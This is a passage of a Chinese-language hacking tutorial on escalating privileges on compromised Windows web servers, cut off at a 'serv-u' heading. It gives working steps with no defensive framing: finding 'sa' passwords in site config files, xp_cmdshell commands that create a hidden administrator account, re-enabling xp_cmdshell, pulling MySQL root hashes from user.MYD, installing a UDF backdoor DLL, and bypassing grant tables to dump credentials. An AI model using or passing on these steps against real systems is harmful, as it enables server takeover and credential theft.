 计算机有个地方叫缓存区,程序的缓存区长度是被事先设定好的,如果用户输入的数据超过了这个缓存区的长度,那么这个程序就会溢出了.

缓存区溢出漏洞主要是由于许多软件没有对缓存区检查而造成的.

利用一些现成的造成溢出漏洞的exploit通过运行,把用户从users组或其它系统用户中提升到administrators组.

想要执行cmd命令，就要wscript.shell组建支持，或是支持aspx脚本也行，因为aspx脚本能调用.net组件来执行cmd的命令.

## sa提权 

扫描开放的端口，1433开了就可以找sa密码提权，用大马里的搜索文件功能，sa密码一般在conn.asp config.asp web.config 这三个文件

也可以通过注册表找配置文件，看下支持aspx不，支持的话跨目录到别的站点上找，找到之后用aspshell自带的sql提权登录再执行命令创建用户即可。

aspx马提权执行命令有点不一样，点击数据库管理

```bash
MSSQL– server=localhost;UID=sa;PWD=;database=master;Provider=SQLOLEDB–输入帐号密码连接即可
```

增加一个用户：`exec master.dbo.xp_cmdshell ‘net user jianmei daxia.asd /add’;–`
提升为管理员：`exec master.dbo.xp_cmdshell ‘net localgroup administrators jianmei /add’;–`

PS:如果增加不上，说明是xp_cmdshell组建没有，增加xp_cmdshell组建：`Use master dbcc addextendedproc(‘xp_cmdshell’,'xplog70.dll’)`

## root提权

利用mysql提权的前提就是,服务器安装了mysql,mysql的服务没有降权,是默认安装以系统权限继承的(system权限). 并且获得了root的账号密码

如何判断一台windows服务器上的mysql有没有降权？
cmd命令net user 如果存在 mysql mssql这样用户或者类似的.通常就是它的mssql mysql服务已经被降权运行了

如何判断服务器上是否开启了mysql服务？
开了3306端口，有的管理员会把默认端口改掉.另一个判断方法就是网站是否支持php,一般支持的话都是用mysql数据库的.

## 如何查看root密码？

在mysql的安装目录下找到user.myd这个文件，root就藏在里面，一般是40位cmd加密，一些php网站安装的时候用的是root用户,在conn.asp config.asp这些文件里。
有时会显得很乱，这时就需要自己去组合，前17位在第一行可以找到，还有23位在第三行或是其他行，自己继续找。

可以直接用php脚本里“mysql执行”，或是上传个UDF.php，如果网站不支持PHP，可以去旁一个php的站，也可以把UDF.php上传到别的phpshell上也可以。

填入帐号密码之后，自然就是安装DLL了，点击“自动安装Mysql BackDoor” 显示导出跟创建函数成功后，紧接着执行增加用户的命令即可。

注意：5.0版本以下(包括5.0的)默认c:\windows\系统目录就可以了，5.1版本以上的不能导出到系统目录下创建自定义函数，只能导出在mysql安装目录下的lib/plugin目录中

例如：`D:/Program Files/MySQL/MySQL Server 5.1/lib/plugin/mysql.dll`

如果密码看不见，或是组合不到40位，就本地安装一个mysql吧，
1、停止mysql服务
2、替换下载下来的3个文件（user.MYI user.MYD user.frm）
3、cmd切换到bin目录下，进入mysql安全模式，cmd命令：mysqld-nt –skip-grant-tables
4、重新打开一个cmd 切换到bin目录下，cmd命令：mysql -u root  版本不同有可能是：mysql -uroot -proot
5、最后查询一下就出来了select user,password from mysql.user;

## serv-u提权 

